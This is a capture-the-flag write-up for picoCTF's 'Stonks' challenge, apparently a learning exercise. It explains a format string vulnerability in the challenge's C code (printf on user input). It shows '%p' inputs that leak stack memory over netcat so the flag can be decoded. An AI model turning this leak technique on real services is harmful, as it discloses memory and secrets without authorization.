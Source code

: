 # [Stonks](https://play.picoctf.org/practice/challenge/105?bookmarked=1&page=1)

## Initial exploration
After downloading the [C file](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c), I first tried running the netcat.

```
tiffanygan-picoctf@webshell:/tmp$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
test
Buying stonks with token:
test
Portfolio as of Sat Aug 12 17:52:05 UTC 2023


15 shares of CVP
34 shares of X
Goodbye!

tiffanygan-picoctf@webshell:/tmp$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
2

Portfolio as of Sat Aug 12 17:52:12 UTC 2023


You don't own any stonks!
Goodbye!
```

From this brief example, we can guess that the option `1) Buy some stonks!` is going to be important in retrieving the flag. In contrast, `2) View my portfolio` does not appear to be useful. Notably, when we opt to buy stonks, the program prompts us for an API token, so this token will most likely have something to do with our flag. 
## Analyzing the C script
Upon opening `vuln.c`, there's a lot of code, so let's take a look at bits of the most important function, `buy_stonks`:

```c
int buy_stonks(Portfolio *p) {
        ...
        
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);

        ...

}
```

The file named `api` is being read, which likely contains our flag. Unfortunately, we don't have access to this on our own devices, so we need to exploit it on the picoCTF server.

```c
int buy_stonks(Portfolio *p) {
        ...
        
        // TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);

        // TODO: Actually use key to interact with API

        view_portfolio(p);

        return 0;
}
```

The program's direct usage of `printf(user_buf);` makes it vulnerable to string format attacks. By inputting `%p`, intented to display the hex address of the subsequent data as a pointer, we can exploit this absence of data. This causes the `printf('%p)` function to pull and display content from the memory stack. The details of format string exploition can be found [here](https://owasp.org/www-community/attacks/Format_string_attack).

```
tiffanygan-picoctf@webshell:/tmp$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

...

What is your API token?
%p
Buying stonks with token:
0x87453f0
Portfolio as of Sat Aug 12 18:02:52 UTC 2023

...

Goodbye!
```

In this case, `0x87453f0` is the value saved in memory. By chaining `%p`s, we can delve deeper into the memory. Once we have the memory content, we can decode it to get our flag. While decoding, keep in mind that not everything in the stack will be the flag, so some gibberish is to be expected. In addition, if reading the stack with one endian does not give expected results, it may be helpful to try reading it with a different endian.

The code is [here](https://github.com/tiffanygan/picoCTFWriteup/blob/main/src/main/python/stonks.py).